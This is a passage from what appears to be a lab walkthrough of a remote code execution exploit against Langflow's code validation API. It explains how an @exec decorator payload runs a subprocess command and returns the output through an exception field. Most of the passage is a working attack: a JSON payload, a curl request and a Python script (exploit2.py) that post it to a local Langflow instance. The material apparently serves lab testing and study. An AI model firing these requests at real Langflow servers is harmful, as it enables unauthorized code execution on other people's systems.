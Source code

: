```bash
cat README.md
```

Look for a payload like this:

```json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']).decode())\")\ndef foo():\n  pass"
}
```

This tells you the vulnerability involves:

* `@exec(...)` decorator trick
* `subprocess` call inside an exception
* Returning output via Langflow's `function.errors` field

---

## 💣 Try the Exploit (Manually)

### Option A: Using curl

```bash
curl -X POST http://localhost:7860/api/v1/validate/code \
  -H "Content-Type: application/json" \
  -d '{"code":"@exec(\"raise Exception(__import__(\u0027subprocess\u0027).check_output([\u0027id\u0027]).decode())\")\ndef foo():\n  pass"}'
```

---

### Option B: Using Python (`exploit2.py`)

```python
import requests

url = "http://localhost:7860/api/v1/validate/code"

payload = {
    "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']).decode())\")\ndef foo():\n  pass"
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, headers=headers, json=payload, timeout=10)
print(f"[*] Status Code: {response.status_code}")
print(f"[*] Response: {response.text}")
```
